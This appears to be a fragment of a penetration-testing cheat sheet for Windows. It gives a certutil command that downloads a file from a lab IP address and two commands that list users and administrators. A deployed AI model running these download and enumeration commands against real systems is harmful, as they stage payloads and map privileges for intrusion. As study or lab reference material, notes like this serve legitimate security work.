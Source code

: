#windows 


Download a file
```powershell
certutil -urlcache -f http://10.10.10.1/<file> <binary_name>
```

`net users`
`net localgroup administrators`
